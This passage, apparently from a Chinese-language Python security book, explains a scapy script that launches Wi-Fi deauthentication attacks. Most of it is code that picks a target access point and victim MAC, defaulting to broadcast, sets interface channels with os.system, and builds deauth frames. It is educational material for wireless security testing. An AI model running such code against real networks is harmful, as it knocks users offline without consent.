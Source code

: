 现在，让我们看一下以下代码：

*   导入基本模块和库：

```py
      from scapy.all import *
      import shelve 
      import sys
      import os
      from threading import Thread
```

*   以下代码打开`wireless_data.dat`文件，获取信息，并将其显示给用户：

```py
      def main():
         interface = "mon0"
         s = shelve.open("wireless_data.dat")
         print "Seq", "\tBSSID\t\t", "\tChannel", "SSID"
         keys= s.keys()
         list1 = []
         for each in keys:
            list1.append(int(each))
            list1.sort()
         for key in list1:
            key = str(key)
            print key,"\t",s[key][0],"\t",s[key][1],"\t",s[key][2]
         s.close()
```

*   以下代码要求用户输入 AP 序列号。如果用户想要指定任何受害者，那么用户可以提供受害者机器的 MAC；否则，代码将选择广播地址：

```py
        a = raw_input("Enter the seq number of wifi ")
        r = shelve.open("wireless_data.dat")
        print "Are you Sure to attack on ", r[a][0]," ",r[a][2]
        victim_mac = raw_input("Enter the victim MAC or for broadcast 
        press 0 \t")
        if victim_mac=='0':
          victim_mac ="FF:FF:FF:FF:FF:FF"
```

*   所选 AP 正在使用信道号；以下代码为`mon0`设置了相同的频道号：

```py
        cmd1 = "iwconfig wlan1 channel "+str(r[a][1])
        cmd2 = "iwconfig mon0 channel "+str(r[a][1])
        os.system(cmd1)
        os.system(cmd2)
```

*   这段代码很容易理解。`frame= RadioTap()/ Dot11(addr1=victim_mac,addr2=BSSID, addr3=BSSID)/ Dot11Deauth()`语句创建 deauth 数据包。从本章的第一个屏幕截图中，您可以查看以下地址：

```py
  BSSID = r[a][0]
  frame= RadioTap()/ Dot11(addr1=BSSID,addr2=victim_mac, addr3=BSSID)/ 
  Dot11Deauth()
  frame1= RadioTap()/ Dot11(addr1=victim_mac,addr2=BSSID, addr3=BSSID)/ 
  Dot11Deauth()
```

